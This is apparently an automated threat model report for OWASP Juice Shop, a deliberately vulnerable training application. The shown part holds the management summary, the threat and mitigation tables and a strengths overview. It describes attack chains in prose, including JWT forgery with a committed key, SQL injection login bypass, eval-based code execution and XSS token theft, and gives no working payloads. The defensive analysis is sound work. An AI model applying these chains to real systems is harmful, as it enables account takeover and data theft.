# Threat Model - Juice Shop

_Generated by appsec-advisor v0.4.0-beta (analysis v2)_


---

> | | |
> |---|---|
> | **Project** | Juice Shop v19.2.1 |
> | **Description** | Probably the most modern and sophisticated insecure web application |
> | **Author** | Björn Kimminich <bjoern.kimminich@owasp\.org> (https://kimminich.de) |
> | **License** | MIT |
> | **Repository** | https://github.com/juice-shop/juice-shop |
> | **Homepage** | https://owasp-`juice.shop` |
> | **Runtime** | Node\.js 20 - 24, Express 4 |
> | **Tags** | web security, web application security, webappsec, owasp, pentest, pentesting, security, vulnerable, vulnerability, broken, bodgeit, ctf, capture the flag, awareness |

---

## Changelog

_Append-only history of assessment runs. Most recent first._

| Version | Date | Mode | Depth | Reasoning | Baseline → Current | Δ Threats | Code | Note |
|--------|----------|--------|--------|--------------|------------------|----------------|--------|-------------------|
| v1 | 2026-06-16 | full | standard | sonnet-economy | `455206c` (vs v0) | +1 / ~0 / -0 | - | 68 threats (stable) |


**Latest run (v1) - threat-level delta:**

- **Added (1):** 🟠 [F-045](#f-045) — JWT Algorithm Bypass in 2FA Token Verification — `routes/2fa.ts:26`

- **New abuse cases (6):** [AC-T-001](#ac-t-001), [AC-T-002](#ac-t-002), [AC-T-003](#ac-t-003), [AC-T-004](#ac-t-004), [AC-T-005](#ac-t-005), [AC-T-006](#ac-t-006)

---

## Table of Contents

- [Management Summary](#management-summary)
- [Critical Attack Tree](#critical-attack-tree)
1. [System Overview](#1-system-overview)
   - [Scope](#scope)
2. [Architecture Diagrams](#2-architecture-diagrams)
   - [2.1 System Context](#21-system-context)
   - [2.2 Container Architecture](#22-container-architecture)
   - [2.3 Components](#23-components)
   - [2.4 Technology Architecture](#24-technology-architecture)
3. [Attack Walkthroughs](#3-attack-walkthroughs)
   - [3.1 Derived Credential from OAuth Email Claim](#31-derived-credential-from-oauth-email-claim)
   - [3.2 Insecure JWT Verification](#32-insecure-jwt-verification)
   - [3.3 Hardcoded RSA Private Key Enables Arbitrary JWT Forgery](#33-hardcoded-rsa-private-key-enables-arbitrary-jwt-forgery)
   - [3.4 Unsalted MD5 password hashing](#34-unsalted-md5-password-hashing)
   - [3.5 Insecure Direct Object Reference](#35-insecure-direct-object-reference)
   - [3.6 SQL Injection](#36-sql-injection)
   - [3.7 SQL Injection](#37-sql-injection)
   - [3.8 Server-Side Code Execution](#38-server-side-code-execution)
   - [3.9 Payment card numbers stored in plaintext](#39-payment-card-numbers-stored-in-plaintext)
   - [3.10 XML External Entity Expansion](#310-xml-external-entity-expansion)
   - [3.11 Client-Side-Only Route Guard Bypassable](#311-client-side-only-route-guard-bypassable)
   - [3.12 Role Escalation](#312-role-escalation)
   - [3.13 Server-side RCE](#313-server-side-rce)
4. [Assets](#4-assets)
5. [Attack Surface](#5-attack-surface)
   - [5.1 Unauthenticated Entry Points (55)](#51-unauthenticated-entry-points-55)
   - [5.2 Authenticated Entry Points (54)](#52-authenticated-entry-points-54)
7. [Security Architecture](#7-security-architecture)
   - [7.1 Security Control Overview](#71-security-control-overview)
   - [7.2 Identity and Authentication Controls](#72-identity-and-authentication-controls)
   - [7.3 Session and Token Controls](#73-session-and-token-controls)
   - [7.4 Authorization Controls](#74-authorization-controls)
   - [7.5 Query Construction and Data Access Controls](#75-query-construction-and-data-access-controls)
   - [7.6 Input Boundary Validation Controls](#76-input-boundary-validation-controls)
   - [7.7 Output Encoding and Rendering Controls](#77-output-encoding-and-rendering-controls)
   - [7.8 Browser and Cross-Origin Controls](#78-browser-and-cross-origin-controls)
   - [7.9 Cryptography Secrets and Data Protection](#79-cryptography-secrets-and-data-protection)
   - [7.10 File Parser and Outbound Request Controls](#710-file-parser-and-outbound-request-controls)
   - [7.11 Operations Runtime and Supply Chain Controls](#711-operations-runtime-and-supply-chain-controls)
   - [7.12 Real-time and Not Applicable Controls](#712-real-time-and-not-applicable-controls)
   - [7.13 Defense-in-Depth Summary](#713-defense-in-depth-summary)
8. [Findings Register](#8-findings-register)
9. [Abuse Cases](#9-abuse-cases)
10. [Mitigation Register](#10-mitigation-register)
11. [Out of Scope](#11-out-of-scope)
- [Appendix: Run Statistics](#appendix-run-statistics)
- [Appendix A - Vektor Taxonomy](#appendix-a-vektor-taxonomy)

> _Section numbering is non-contiguous: §6 was retired in a prior revision. The remaining sections keep their original numbers so existing cross-references stay valid._

---

## Management Summary

### Verdict

🔴 Juice Shop is not production-ready. The signing key for every session token is committed in plaintext to a public repository, two SQL injection points bypass authentication entirely, and two independent eval paths deliver arbitrary server-side code execution - all without requiring elevated access. Fixing this means replacing hardcoded secrets, switching raw SQL to parameterized queries, and adding server-side authorization - not patching isolated bugs.

**Risk distribution:** 🔴 Critical: 13 · 🟠 High: 40 · 🟡 Medium: 11 · 🟢 Low: 4 · **Total: 68**


<br/>

**The dominant paths an attacker takes from the public internet to full compromise:**

<blockquote style="border-left: 3px solid #dc2626; background: #fef2f2; padding: 16px 20px; margin: 0;">

- **Forge an admin session without credentials** — The RSA private key used to sign all JWTs is committed to the public repository. Any reader of the source tree can sign a token with `role=admin` and authenticate as any user, including the seeded admin account. *(🔴 [F-004](#f-004) — Hardcoded RSA Private Key Enables Arbitrary JWT Forgery — lib/insecurity.ts:23, 🔴 [F-003](#f-003) — Insecure JWT Verification — lib/insecurity.ts:54, 🔴 [F-013](#f-013) — Role Escalation — lib/insecurity.ts:56)*
- **Extract the entire user and payment database** — The login and search routes interpolate user-controlled strings directly into raw SQL. A crafted request bypasses the login check and returns every row in the database — including plaintext payment card numbers stored in the Card model. *(🔴 [F-007](#f-007) — SQL Injection — routes/login.ts:34, 🔴 [F-008](#f-008) — SQL Injection — routes/search.ts:23, 🔴 [F-010](#f-010) — Payment card numbers stored in plaintext — models/card.ts:39)*
- **Execute arbitrary code on the server** — Two routes evaluate attacker-controlled expressions server-side: the profile-name field passes through `eval()` and the B2B order endpoint passes through `vm.runInContext()` with a known sandbox-escape vector. Either path gives the attacker a shell on the host. *(🔴 [F-009](#f-009) — Server-Side Code Execution — routes/userProfile.ts:62, 🔴 [F-014](#f-014) — Server-side RCE — routes/b2bOrder.ts:23)*
- **Steal any user session through stored XSS** — Product descriptions, search query reflections, and the Last-Login-IP JWT claim are rendered via Angular's `bypassSecurityTrustHtml()`. A payload stored in any of these surfaces runs in every victim browser and can read the session JWT from localStorage. *(🔴 [F-018](#f-018) — Stored XSS — search-result.component.ts:132, 🔴 [F-019](#f-019) — DOM XSS — search-result.component.ts:170, 🔴 [F-020](#f-020) — Stored XSS — routes/saveLoginIp.ts:18, 🟠 [F-001](#f-001) — JWT Session Token in localStorage — login.component.ts:101)*
- **Access any customer's orders, addresses, and wallet** — REST routes for orders, addresses, payments, and wallet balances accept a user-controlled ID parameter without checking that the record belongs to the authenticated caller. Any logged-in user can read or modify another customer's data. *(🔴 [F-006](#f-006) — Insecure Direct Object Reference — routes/address.ts:11, 🔴 [F-046](#f-046) — Sensitive Routes Registered Without Authentication Middleware — server.ts:310, 🔴 [F-050](#f-050) — Missing Authorization on PUT /api/Products/:id — server.ts:369)*

</blockquote>

<br/>

Three repairs cut the Critical-severity surface by more than half: rotate secrets out of source, switch raw SQL to parameterized queries, enforce server-side authorization on every sensitive route.

**Attack-chain analysis.** 3 findings anchor 3 code-verified attack chains (see [§9](#9-abuse-cases) Abuse Cases): 🔴 [F-003](#f-003) — Insecure JWT Verification (`lib/insecurity.ts:54`), 🔴 [F-004](#f-004) — Hardcoded RSA Private Key Enables Arbitrary JWT Forgery (`lib/insecurity.ts:23`), 🔴 [F-006](#f-006) — Insecure Direct Object Reference (`routes/address.ts:11`). Their Critical/High ratings reflect exploitability confirmed end-to-end across the chain, not the individual weakness alone.

### Security Posture & Top Threats

**Figure 1 - Architecture & Top Threats**

Architecture tiers top-to-bottom (External Actors → Client → Application → Data) with the top threats per component. The in-figure legend on the right explains the attack scenarios, severity dots and symbols.


**Figure 2 - Risk Flow: Actor → Tier → Impact**

Heatmap: **actors** (left) → **architecture tiers** (middle, Client → Application → Data) → **impact** (right). Numbered red arrows ①–⑥ are the threats enumerated in the Top Threats table below. Self-registration is open, so the **Authenticated Internet Attacker** tier is one POST away from anonymous - it is shown distinctly because a post-login endpoint is still a different attack surface.



**Threat actors.** The actors below drive the numbered attack paths in the figures above. The **Shop User** is the *victim* of client-side attacks (XSS / CSRF), not an attacker - in Figure 2 the compromise surfaces as the resulting business-impact node rather than as a separate actor box.

- **Shop User** — legitimate customer; target of client-side attacks; target of ⑥ Output Encoding / Cross-Site Scripting.
- **Anonymous Internet Attacker** — no account; registers in seconds when needed; drives ① Insecure Query Construction & Data Access, ② Hardcoded Secrets & Weak Cryptography, ④ Remote Code Execution (unsafe eval), ⑤ Sensitive File & Secret Exposure.
- **Authenticated Internet Attacker** — owns a regular account; logged in; drives ③ Broken Authorization & Access Control.

**6 structural threats**, grouped by weakness class - each row is one threat, not one finding. *Threat Description* states the general architectural weakness (STRIDE in brackets); *Findings* lists the concrete instances, each linked to [§8 Findings Register](#8-findings-register) with its component; *Risk & Impact* combines severity with business consequence.

| # | Threat Description | Findings (→ Component) | Risk & Impact | Fix |
|---|------------------------------------|------------------------------------------------|------------------------------------|--------|
| <a id="path-injection"></a>① | **Insecure Query Construction & Data Access** _(T·I)_<br/>Raw SQL string interpolation on the login and search routes allows unauthenticated callers to bypass authentication and read or modify arbitrary database rows. | <span style="white-space:nowrap">🔴&nbsp;[F-007](#f-007)</span> - SQL Injection (`routes/login.ts:34`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-008](#f-008)</span> - SQL Injection (`routes/search.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-011](#f-011)</span> - XML External Entity Expansion (`routes/fileUpload.ts:83`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span> | 🔴 **Critical**<br/>Customer Data Exfiltration · Full Admin Takeover | <span style="white-space:nowrap">❶ [M-015](#m-015)</span> — Use parameterized database queries<br/><span style="white-space:nowrap">❶ [M-016](#m-016)</span> — Use parameterized database queries |
| <a id="path-auth-bypass"></a>② | **Hardcoded Secrets & Weak Cryptography** _(S·E)_<br/>The RSA private key used to sign all session JWTs is committed to the public repository, and the verification middleware accepts the `alg:none` algorithm, allowing any caller to forge an arbitrary admin token without server access. | <span style="white-space:nowrap">🔴&nbsp;[F-002](#f-002)</span> - Derived Credential from OAuth Email Claim (`oauth.component.ts:30`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-003](#f-003)</span> - Insecure JWT Verification (`lib/insecurity.ts:54`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-004](#f-004)</span> - Hardcoded RSA Private Key Enables Arbitrary JWT Forgery (`lib/insecurity.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-005](#f-005)</span> - Unsalted `MD5` password hashing (`lib/insecurity.ts:43`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-012](#f-012)</span> - Client-Side-Only Route Guard Bypassable (`app.guard.ts:18`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-013](#f-013)</span> - Role Escalation (`lib/insecurity.ts:56`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-016](#f-016)</span> - Brute-Forceable Security Question Password Reset (`routes/resetPassword.ts:41`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-017](#f-017)</span> - Missing Authentication on WebSocket Connection (`registerWebsocketEvents.ts:24`) <span style="white-space:nowrap">→&nbsp;[C-08](#c-08)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-029](#f-029)</span> - Hardcoded HMAC Key for Security Answer Verification (`lib/insecurity.ts:44`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-034](#f-034)</span> - SQLite database file stored unencrypted at rest (`models/index.ts:38`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-045](#f-045)</span> - JWT Algorithm Bypass in 2FA Token Verification (`routes/2fa.ts:26`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-049](#f-049)</span> - Deterministic deluxeToken derivation enables unauthorized (`models/user.ts:101`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-056](#f-056)</span> - Container images published without signing or build provenance (`ci.yml:305`) <span style="white-space:nowrap">→&nbsp;[C-07](#c-07)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-060](#f-060)</span> - Container images not signed (`ci.yml:1`) <span style="white-space:nowrap">→&nbsp;[C-07](#c-07)</span> | 🔴 **Critical**<br/>Full Admin Takeover · Customer Session Hijack | <span style="white-space:nowrap">❶ [M-010](#m-010)</span> — Remove derived-password pattern; enforce OAuth-only login path with server-side token exchange<br/><span style="white-space:nowrap">❶ [M-011](#m-011)</span> — Harden the authentication flow |
| <a id="path-privilege-escalation"></a>③ | **Broken Authorization & Access Control** _(E·I)_<br/>REST endpoints for orders, addresses, payments, and wallet balances accept a user-controlled ID without an ownership check, and the user registration endpoint permits mass-assignment of the admin role field. | <span style="white-space:nowrap">🔴&nbsp;[F-006](#f-006)</span> - Insecure Direct Object Reference (`routes/address.ts:11`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-013](#f-013)</span> - Role Escalation (`lib/insecurity.ts:56`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-024](#f-024)</span> - User role field writable without ownership check in model (`models/user.ts:80`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-030](#f-030)</span> - GitHub Actions workflow missing top-level permissions block (`release.yml:1`) <span style="white-space:nowrap">→&nbsp;[C-07](#c-07)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-046](#f-046)</span> - Sensitive Routes Registered Without Authentication Middleware (`server.ts:310`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-048](#f-048)</span> - Missing workflow-level permissions block grants GITHUB_TOKEN (`ci.yml:1`) <span style="white-space:nowrap">→&nbsp;[C-07](#c-07)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-049](#f-049)</span> - Deterministic deluxeToken derivation enables unauthorized (`models/user.ts:101`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-050](#f-050)</span> - Missing Authorization on PUT `/api/Products/:id` (`server.ts:369`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-051](#f-051)</span> - Mass Assignment Admin Role Injection (`server.ts:483`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span> | 🔴 **Critical**<br/>Customer Data Exfiltration · Full Admin Takeover | <span style="white-space:nowrap">❶ [M-014](#m-014)</span> — Enforce object-level (ownership) authorization<br/><span style="white-space:nowrap">❶ [M-021](#m-021)</span> — Apply least-privilege permissions |
| <a id="path-remote-code-execution"></a>④ | **Remote Code Execution (unsafe eval)** _(E)_<br/>Two routes evaluate attacker-controlled strings server-side: the profile-name field via `eval()` and the B2B order `orderLinesData` field via `vm.runInContext()` with a sandbox-escape vector present in the deployed version. | <span style="white-space:nowrap">🔴&nbsp;[F-009](#f-009)</span> - Server-Side Code Execution (`routes/userProfile.ts:62`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-014](#f-014)</span> - Server-side RCE (`routes/b2bOrder.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-052](#f-052)</span> - Unsafe YAML Deserialization (`routes/fileUpload.ts:117`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span> | 🔴 **Critical**<br/>Full Server Compromise | <span style="white-space:nowrap">❶ [M-017](#m-017)</span> — Remove server-side evaluation of untrusted input<br/><span style="white-space:nowrap">❶ [M-022](#m-022)</span> — Remove server-side evaluation of untrusted input |
| <a id="path-sensitive-data-exposure"></a>⑤ | **Sensitive File & Secret Exposure** _(I)_<br/>Payment card numbers are stored in plaintext in the Card model, the JWT session token is stored in browser localStorage where XSS can read it, and the application configuration endpoint is reachable without authentication. | <span style="white-space:nowrap">🟠&nbsp;[F-001](#f-001)</span> - JWT Session Token in localStorage (`login.component.ts:101`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-010](#f-010)</span> - Payment card numbers stored in plaintext (`models/card.ts:39`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-015](#f-015)</span> - OAuth Implicit Flow Token Exposure (`login.component.ts:134`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-025](#f-025)</span> - Zip-Slip Path Traversal (`routes/fileUpload.ts:45`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-028](#f-028)</span> - Password Credentials in URL Query Parameters (`user.service.ts:54`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-035](#f-035)</span> - Unauthenticated Application Configuration Endpoint (`server.ts:605`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-036](#f-036)</span> - Unauthenticated Directory Listing (`server.ts:277`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-037](#f-037)</span> - SSRF Response Body Exposed (`routes/profileImageUrlUpload.ts:29`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-038](#f-038)</span> - SSRF (`routes/profileImageUrlUpload.ts:24`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-039](#f-039)</span> - CTF Flag Broadcast to All Unauthenticated WebSocket (`lib/challengeUtils.ts:71`) <span style="white-space:nowrap">→&nbsp;[C-08](#c-08)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-058](#f-058)</span> - Unauthenticated B2B API attack surface disclosure (`server.ts:286`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-059](#f-059)</span> - Raw error propagation leaks safeEval execution details (`routes/b2bOrder.ts:33`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span><br/><span style="white-space:nowrap">🟢&nbsp;[F-066](#f-066)</span> - SOLUTIONS_WEBHOOK secret exposed to Cypress test runner (`ci.yml:223`) <span style="white-space:nowrap">→&nbsp;[C-07](#c-07)</span> | 🔴 **Critical**<br/>Customer Data Exfiltration · Customer Session Hijack | <span style="white-space:nowrap">❷ [M-018](#m-018)</span> — Stop storing sensitive data in cleartext<br/><span style="white-space:nowrap">❷ [M-023](#m-023)</span> — Replace Implicit Flow with Authorization Code + PKCE |
| <a id="path-cross-site-scripting"></a>⑥ | **Output Encoding / Cross-Site Scripting** _(T·I)_<br/>Product descriptions, search-query reflections, and the Last-Login-IP JWT claim are rendered via Angular's `bypassSecurityTrustHtml()`, enabling stored and reflected XSS payloads that execute in victim browsers and can exfiltrate session tokens from localStorage. | <span style="white-space:nowrap">🟠&nbsp;[F-001](#f-001)</span> - JWT Session Token in localStorage (`login.component.ts:101`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-018](#f-018)</span> - Stored XSS (`search-result.component.ts:132`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-019](#f-019)</span> - DOM XSS (`search-result.component.ts:170`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-020](#f-020)</span> - Stored XSS (`routes/saveLoginIp.ts:18`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-054](#f-054)</span> - XSS (`last-login-ip.component.ts:39`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span> | 🟠 **High**<br/>Customer Session Hijack | <span style="white-space:nowrap">❷ [M-026](#m-026)</span> — Encode output instead of bypassing the framework sanitizer<br/><span style="white-space:nowrap">❷ [M-027](#m-027)</span> — Encode output instead of bypassing the framework sanitizer |

_STRIDE: S spoofing · T tampering · R repudiation · I information disclosure · D denial of service · E elevation of privilege. Risk, findings, components, impact and Fix are derived deterministically; only the one-line weakness description is authored._

**Verified attack chains.** 3 fully viable ([AC-T-003](#ac-t-003), [AC-T-004](#ac-t-004), [AC-T-005](#ac-t-005)); 3 partially blocked ([AC-T-001](#ac-t-001), [AC-T-002](#ac-t-002), [AC-T-006](#ac-t-006)). These chains combine individual findings into end-to-end exploitation paths verified step-by-step against the code - see [§9 Abuse Cases](#9-abuse-cases) for the per-step breakdown and blocking mitigations.

### Top Mitigations

Highest-impact P1/P2 mitigations - 13 of 50 qualifying (68 total). Full detail in [§10 Mitigation Register](#10-mitigation-register). All 13 mitigation(s) that fix a Critical finding are always listed here.

| # | Component | Mitigation | Addresses | Effort |
|---|----------------------|------------------------------------------------|------------------------------------------------|------|
| **1** | [C-01](#c-01) — Express Backend | ❶ [M-015](#m-015) — Use parameterized database queries | 🔴 [F-007](#f-007) — SQL Injection (`routes/login.ts`) | Low |
| **2** | [C-01](#c-01) — Express Backend | ❶ [M-016](#m-016) — Use parameterized database queries | 🔴 [F-008](#f-008) — SQL Injection (`routes/search.ts`) | Low |
| **3** | [C-01](#c-01) — Express Backend | ❶ [M-017](#m-017) — Remove server-side evaluation of untrusted input | 🔴 [F-009](#f-009) — Server-Side Code Execution (`routes/userProfile.ts`) | Low |
| **4** | [C-01](#c-01) — Express Backend | ❶ [M-014](#m-014) — Enforce object-level (ownership) authorization | 🔴 [F-006](#f-006) — Insecure Direct Object Reference (`routes/address.ts`) | Medium |
| **5** | [C-02](#c-02) — Angular SPA Frontend | ❶ [M-010](#m-010) — Remove derived-password pattern; enforce OAuth-only login path with server-side token exchange | 🔴 [F-002](#f-002) — Derived Credential from OAuth Email Claim (`oauth.component.ts`) | Medium |
| **6** | [C-02](#c-02) — Angular SPA Frontend | ❶ [M-020](#m-020) — Harden the authentication flow | 🔴 [F-012](#f-012) — Client-Side-Only Route Guard Bypassable (`app.guard.ts`) | Medium |
| **7** | [C-03](#c-03) — Data Layer (SQLite + MarsDB) | ❶ [M-013](#m-013) — Hash passwords with a strong, salted algorithm | 🔴 [F-005](#f-005) — Unsalted MD5 password hashing (`lib/insecurity.ts`) | Medium |
| **8** | [C-04](#c-04) — File Upload Service | ❶ [M-019](#m-019) — Disable XML external entity (XXE) resolution | 🔴 [F-011](#f-011) — XML External Entity Expansion (`routes/fileUpload.ts`) | Low |
| **9** | [C-05](#c-05) — B2B Order API | ❶ [M-022](#m-022) — Remove server-side evaluation of untrusted input | 🔴 [F-014](#f-014) — Server-side RCE (`routes/b2bOrder.ts`) | Medium |
| **10** | [C-06](#c-06) — Authentication & Session Surface | ❶ [M-011](#m-011) — Harden the authentication flow | 🔴 [F-003](#f-003) — Insecure JWT Verification (`lib/insecurity.ts`) | Low |
| **11** | [C-06](#c-06) — Authentication & Session Surface | ❶ [M-012](#m-012) — Move cryptographic keys to a managed secret store | 🔴 [F-004](#f-004) — Hardcoded RSA Private Key Enables Arbitrary JWT Forgery (`lib/insecurity.ts`) | Medium |
| **12** | [C-06](#c-06) — Authentication & Session Surface | ❶ [M-021](#m-021) — Apply least-privilege permissions | 🔴 [F-013](#f-013) — Role Escalation (`lib/insecurity.ts`) | Medium |
| **13** | [C-03](#c-03) — Data Layer (SQLite + MarsDB) | ❷ [M-018](#m-018) — Stop storing sensitive data in cleartext | 🔴 [F-010](#f-010) — Payment card numbers stored in plaintext (`models/card.ts`) | High |

*37 additional P1/P2 mitigations capped from the leader-board · 18 P3 backlog items in [§10 Mitigation Register](#10-mitigation-register). Sorted by priority (P1 first), then component, then leverage (most findings first), severity (Critical first), and effort (Low first).*

### Operational Strengths

Operational controls rated Adequate or Partial - grouped into broad clusters (full per-control breakdown in [§7](#7-security-architecture)). Clusters demoted to Weak by open Critical/High findings appear in [§7](#7-security-architecture) instead, not here.

<table style="table-layout:fixed;width:100%">
<colgroup><col width="18%" style="width:18%"><col width="28%" style="width:28%"><col width="13%" style="width:13%"><col width="30%" style="width:30%"><col width="11%" style="width:11%"></colgroup>
<thead><tr><th>Strength</th><th>What's in Place</th><th>Effectiveness</th><th>Gap</th><th>Mitigates</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:anywhere"><strong>Container &amp; Supply-Chain Hardening</strong></td><td style="overflow-wrap:anywhere"><em>Build-time and runtime hardening - minimal base image, non-root execution, dependency inventory.</em><br/>Automated SCA scanning</td><td>✅ Adequate</td><td style="overflow-wrap:anywhere">-</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere"><strong>Hardened HTTP Stack</strong></td><td style="overflow-wrap:anywhere"><em>Browser-facing HTTP hardening - security headers, cookie flags, cross-origin policy, and abuse-protection limits.</em><br/>Rate Limiting and Anti-Automation - express-rate-limit (partial)<br/>CORS Policy - <code>server.ts:181</code>-182<br/>Content Security Policy (CSP) - <code>routes/userProfile.ts:95</code>, helmet (global but weak)</td><td>⚠️ Partial</td><td style="overflow-wrap:anywhere">Bypassed by 1 High finding(s) of the kind this cluster is supposed to prevent - e.g.<br/>🟠 <a href="#f-038">F-038</a> — SSRF — <code>routes/profileImageUrlUpload.ts:24</code>.</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere"><strong>Observability &amp; Audit</strong></td><td style="overflow-wrap:anywhere"><em>Runtime visibility - access logging, audit trails, and operational telemetry for post-incident review.</em><br/>Security Logging and Monitoring - <code>challengeUtils.solveIf()</code>, no dedicated security logging framework</td><td>⚠️ Partial</td><td style="overflow-wrap:anywhere">Coverage incomplete - see <a href="#7-security-architecture">§7</a> control assessment.</td><td style="overflow-wrap:anywhere">-</td></tr>
</tbody>
</table>


**Bottom line:** These controls narrow specific attack surfaces but none eliminates a Critical finding on its own.

---

<a id="critical-attack-chain"></a><a id="critical-attack-tree"></a>
## Critical Attack Tree

The root is the worst-case attacker goal; below it, each capability branch groups the Critical findings that achieve it. Branches feed the goal by OR - any single path suffices.

